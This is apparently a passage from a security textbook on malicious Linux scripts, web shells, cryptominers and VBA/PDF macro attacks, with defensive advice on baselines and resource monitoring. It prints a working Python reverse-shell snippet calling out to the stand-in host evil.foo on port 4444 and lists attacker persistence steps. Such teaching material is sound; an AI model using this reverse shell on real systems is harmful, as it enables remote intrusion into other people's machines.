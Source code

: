 A malicious script running on a Linux host might attempt the following:

1.  Use commands such as whoami and ifconfig/ip/route to establish the local context.
2.  Download tools, possibly using wget or curl.
3.  Add crontab entries to enable persistence.
4.  Add a user to sudo and enable remote access via SSH.
5.  Change firewall rules using iptables.
6.  Use tools such as Nmap to scan for other hosts.

A very common vector for attacking Linux hosts is to use an exploit to install a web shell as a backdoor ([acunetix.com/blog/articles/introduction-web-shells-part-1](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)). Typical code to implement a reverse shell (connecting out to the machine at evil.foo on port 4444) is as follows:

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("evil.foo",4444))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")'

The os.dup2 statements redirect the terminal's data streams stdin (0), stdout (1), and stderr (2) to the socket object (s). The pty module provides a library of functions for managing a pseudo-terminal, in this case starting the shell process at /bin/sh.

The code to implement a shell can be obfuscated in numerous ways. One way to identify malicious scripts trying to match code samples is to scan the file system against a configuration baseline, either using file integrity monitoring or use of the Linux diff command. 

A common exploit for a vulnerable web server is to upload a cryptominer, misusing the server's CPU resources to try to obtain new cryptocurrency. You can use Linux utilities such as top and free to diagnose excessive CPU and memory resource consumption by such malware.

This F5 white paper describes the use of Bash and Python attack tools ([f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers](https://www.f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers)).
# MACROS AND VISUAL BASIC FOR APPLICATIONS (VBA)

A document macro is a sequence of actions performed in the context of a word processor, spreadsheet, or presentation file. While the user may be able to record macro steps using the GUI, ultimately macros are coded in a scripting language. Microsoft Office uses the Visual Basic for Applications (VBA) language, while PDF documents use JavaScript. Microsoft Office document macros can be inspected using ALT+F11. Other vendors and open-source software also implement macro functionality, using languages such as Basic or Python.

A malicious actor will try to use a macro-enabled document to execute arbitrary code. For example, a Word document could be the vector for executing a malicious PowerShell script. Macros are disabled by default in Office, but the attacker may be able to use a social engineering attack to get the user to change the policy.

With PDF, the JavaScript might be embedded within the document and designed to exploit a known vulnerability in the reader software to execute without authorization ([sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks](https://www.sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks/)).
# MAN-IN-THE-BROWSER ATTACK
